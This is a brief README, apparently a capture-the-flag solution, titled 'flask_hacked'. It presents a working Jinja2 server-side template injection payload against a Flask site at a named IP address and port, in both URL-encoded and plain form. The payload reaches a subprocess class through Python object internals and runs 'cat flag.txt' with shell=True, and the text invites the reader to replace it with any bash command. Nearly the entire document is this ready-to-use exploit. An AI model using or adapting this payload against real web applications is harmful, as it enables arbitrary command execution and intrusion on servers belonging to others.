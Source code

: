 # flask_hacked
# Hi i told you about how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`

>The first part is write URL 
>>`167.172.55.94:31138`

>Second part is write exploit and start bash command
>>`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode

>>`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 

>`"cat flag.txt"` is a bash command. You can write your command.

Solve this task!
